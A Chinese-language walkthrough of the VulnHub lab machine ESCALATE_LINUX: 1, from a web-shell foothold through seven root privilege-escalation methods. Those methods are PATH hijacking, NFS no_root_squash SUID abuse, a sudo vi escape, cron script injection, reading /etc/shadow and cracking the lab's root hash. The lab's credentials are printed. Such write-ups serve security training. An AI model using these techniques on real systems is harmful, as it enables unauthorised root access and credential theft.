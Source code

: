 # ESCALATE_LINUX: 1

2024-7-27 https://www.vulnhub.com/entry/escalate_linux-1,323/

difficulty: easy

## IP

192.168.5.37

## Scan

Open Port -> 80,111,139,445,2049,40825,41391,43945,46303

```
PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
2049/tcp  open  nfs
```

先看 80 首页无内容，gobuster 扫描出 http://192.168.5.37/shell.php , 提示 cmd 作为参数，ls 可以命令执行，在 kali 上获得反弹的 shell。

suid： /home/user5/script 和 /home/user3/shell

## 方式 1

/home/user3/shell 中调用了 /home/user5/.script.sh 脚本，脚本中有 bash -i：

直接得到了 root 权限：

```
cd /home/user3
./shell
```

## 方式 2

/home/user5/script 调用了 user5 目录中的 ls 程序，未使用绝对路径。

```
cd /tmp
echo 'bash -p' > ls
chmod +x ls
export PATH=/tmp:$PATH
/home/user5/script
```

## 方式 3

/etc/exports 中/home/user5 (rw,no_root_squash) 在 kali 上切换到 root 用户，su root && mkdir -p /tmp/mount && mount -o rw,vers=3 192.168.5.37:/home/user5 /tmp/mount

切换到/tmp/mount 中，echo '/bin/bash -p' > rootsh && chmod +x rootsh 在目标机器上，进入到/home/user5 目录中，就看到了这个 suid 脚本，执行后就得到了 root 权限。

## 方式 4

mysql 弱密码 root/root，user 数据库中有 user_info 表，内容为 mysql:mysql@12345, su mysql 用户，切换到家目录中，发现备份文件.user_informations，赋予 r 权限后，读取内容：

```
user2:user2@12345
user3:user3@12345
user4:user4@12345
user5:user5@12345
user6:user6@12345
user7:user7@12345
user8:user8@12345
```

其中 user8 中 sudo 有 /usr/bin/vi， 可以直接提升至 root : sudo vi -c ':!/bin/sh' /dev/null

## 方式 5

/etc/crontab 中有/home/user4/Desktop/autoscript.sh 每 5 分钟执行一次。使用方式 4 中获得的 user4 的密码 user4@12345，切换到 user 用户。编辑/home/user4/Desktop/autoscript.sh，添加: cp /bin/bash /home/user4/rootbash;chmod +xs /home/user4/rootbash , 等待 5 分钟 /home/user4/rootbash -p 获得 root 权限(不能写到/tmp 中)。

## 方式 6

user2 的 sudo 显示(user1) ALL ，根据方式 4 中发现的密码方式，猜测 user1 的密码可能是 user1@12345。尝试读取 shadow 文件 sudo -u user1 sudo cat /etc/shadow 输入密码 user1@12345 成功。同时发现 user1 的 sudo 为 (ALL : ALL) ALL 具有全部方式，sudo bash 就可以获得 root 权限。

## 方式 7

将方式 6 中获得的 shadow 中的 root 使用 rockyou 进行破解，发现密码为 12345

```
root:$6$mqjgcFoM$X/qNpZR6gXPAxdgDjFpaD1yPIqUF5l5ZDANRTKyvcHQwSqSxX5lA7n22kjEkQhSP6Uq7cPaYfzPSmgATM9cwD1:18050:0:99999:7:::
```
